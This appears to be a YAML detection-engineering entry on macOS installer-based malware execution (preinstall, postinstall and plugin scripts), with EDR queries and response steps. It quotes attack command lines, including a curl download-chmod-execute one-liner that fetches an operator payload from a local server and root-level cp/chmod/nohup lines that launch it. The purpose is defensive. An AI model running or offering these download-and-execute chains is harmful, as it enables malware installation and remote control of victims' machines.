 ```yaml
---
Name: Installers
Description: On macOS, malware is often distributed to users via macOS Installers. These are generally going to be extremely noisy in most environments. Most of these are only recommended for threat hunting, baselining or trigger some automated action to collect more information from the endpoint.
Author: 
Created: 2022-05-17
Full_Path:
  - Path: /System/Library/CoreServices/Installer.app/Contents/MacOS/Installer
  - Path: /System/Library/PrivateFrameworks/PackageKit.framework/Versions/A/XPCServices/package_script_service.xpc/Contents/MacOS/package_script_service
  - Path: /bin/bash
Resources:
  - Link: https://github.com/AutomoxSecurity/iShelly
Commands:

  - Name: macOS installer package with preinstall script
    Description: This query detects any instance of macOS installers running a preinstall script.
    Usecase: Adversaries may pair this technique with a social engineering component to execute malware.
    Category: Execution
    Privileges: Root
    MitreID: T1204.002
    Behaviors:
      - Step: When executing the pkg file generated via iShelly, launchd runs Installer as user.
      - Step: After the user clicks through Installer prompts and authenticates, launchd runs package_script_service as root.
      - Step: package_script_service runs bash (or whatever script interpreter is used in the installer) as root with a cmdline similar to <pre><code>/bin/bash /tmp/PKInstallSandbox.YxqP12/Scripts/com.simple.test.ir2Zsb/preinstall /Users/user/iShelly/Payloads/install_pkg.pkg / / / </code></pre>
      - Step: The bash process launches cp as root with the following cmdline <pre><code>cp files/operator-payload /Library/Application Support/ "</pre></code> chmod is also executed by the same bash process to make it executable using cmdline <pre><code>chmod +x /Library/Application Support/operator-payload </pre></code>
      - Step: the same bash process executes nohup -> bash as root with cmdline <pre><code>nohup bash -c /Library/Application\\ Support/operator-payload -name installer-w-preinstall-script</pre></code>
      - Step: operator-payload executes as root using cmdline <pre><code>/Library/Application Support/operator-payload -name installer-w-preinstall-script</pre></code> and makes a network connection to operator.
    Execute:
      - Prelude Operator: Run <a href="https://github.com/AutomoxSecurity/iShelly">iShelly</a> with the "Installer Package w/ only preinstall script" Installer Package option. Then execute the pkg file, which will execute an Operator agent after clicking through Installer prompts.
    Detect:
      - EDR: parent_process_name = "package_script_service" and process_cmdline = "*preinstall*"
      - Notes: Alerting on this will be extremely noisy and is not recommended. If using for baselining, exclude based on the pkg name in process_cmdline, but beware an attacker can also leverage this by naming their package after a popular installer.
    Respond:
      - Step: View the process_cmdline field. This will contain the execution of the preinstall script and will have the name of the .pkg being executed.
      - Step: Look at children of the process (often this will be the bash process, but could be another script interpreter). These children will be the commands executed as a result of the preinstall script.
      - Step: Review all file writes and network connections of all children processes.

  - Name: macOS installer package with postinstall script
    Description: This query detects any instance of macOS installers running a postinstall script.
    Usecase: Adversaries may pair this technique with a social engineering component to execute malware.
    Category: Execution
    Privileges: Root
    MitreID: T1204.002
    Behaviors:
      - Step: When executing the pkg file generated via <a href="https://github.com/AutomoxSecurity/iShelly">iShelly</a>, launchd runs Installer as user.
      - Step: After the user clicks through Installer prompts and authenticates, launchd runs package_script_service as root.
      - Step: package_script_service runs bash (or whatever script interpreter is used in the installer) as root with a cmdline similar to <pre><code>/bin/bash /tmp/PKInstallSandbox.YxqP12/Scripts/com.simple.test.ir2Zsb/postinstall /Users/user/iShelly/Payloads/install_pkg.pkg / / / </code></pre>
      - Step: The bash process launches cp as root with the following cmdline <pre><code>cp files/operator-payload /Library/Application Support/ "</pre></code> chmod is also executed by the same bash process to make it executable using cmdline <pre><code>chmod +x /Library/Application Support/operator-payload </pre></code>
      - Step: the same bash process executes nohup -> bash as root with cmdline <pre><code>nohup bash -c /Library/Application\\ Support/operator-payload -name installer-w-postinstall-script</pre></code>
      - Step: operator-payload executes as root using cmdline <pre><code>/Library/Application Support/operator-payload -name installer-w-postinstall-script</pre></code> and makes a network connection to operator.
    Execute:
      - Prelude Operator: Run <a href="https://github.com/AutomoxSecurity/iShelly">iShelly</a> with the "Installer Package w/ only postinstall script" Installer Package option. Then execute the pkg file, which will execute an Operator agent after clicking through Installer prompts.
    Detect:
      - EDR: parent_process_name = "package_script_service" and process_cmdline = "*postinstall*"
      - Notes: Alerting on this will be extremely noisy and is not recommended. If using for baselining, exclude based on the pkg name in process_cmdline, but beware an attacker can also leverage this by naming their package after a popular installer.
    Respond:
      - Step: View the process_cmdline field. This will contain the execution of the postinstall script and will have the name of the .pkg being executed.
      - Step: Look at children of the process (often this will be the bash process, but could be another script interpreter). These children will be the commands executed as a result of the postinstall script.
      - Step: Review all file writes and network connections of all children processes.

  - Name: macOS installer plugin
    Description: This query detects any instance of macOS installer plugins.
    Usecase: Adversaries may pair this technique with a social engineering component to execute malware. Adversaries may use this technique to generate less known EDR behavioral patterns or when they need malware running as user.
    Category: Execution
    Privileges: User
    MitreID: T1204.002
    Behaviors:
      - Step: When executing the pkg file generated via <a href="https://github.com/AutomoxSecurity/iShelly">iShelly</a>, launchd runs Installer as user.
      - Step: Installer prompts the user with subject "This package will run a program to determine if the software can be installed".
      - Step: xpcproxy magic happens, and launchd executes InstallerRemotePluginService-x86_64 as user.
      - Step: InstallerRemotePluginService-x86_64 then launches the script interpreter as a user. In our case via iShelly, this will be bash. The cmdline is
      <pre><code>/bin/bash -c /usr/bin/curl -k 'http://127.0.0.1:3391/payloads/d2526ae26fc2139263f57c2af445004e385772ec/operator-payload' -o /Users/$USER/Library/Application\\ Support/operator-payload; chmod +x /Users/$USER/Library/Application\\ Support/operator-payload; /Users/$USER/Library/Application\\ Support/operator-payload -name installer-plugin & </pre></code>
      - Step: as a result of the above bash one liner, bash executes the following children processes- curl, chmod, operator-payload.
      - Step: operator-payload makes a network connection to operator.
    Execute:
      - Prelude Operator: Run <a href="https://github.com/AutomoxSecurity/iShelly">iShelly</a> with the "Installer Package w/ Installer Plugin" Installer Package option.
    Detect:
      - EDR: process_name = "InstallerRemotePluginService-x86_64"
    Respond:
      - Step: View the children of the process. 
      - Step: View all network connections and file writes of all children processes.
---
```


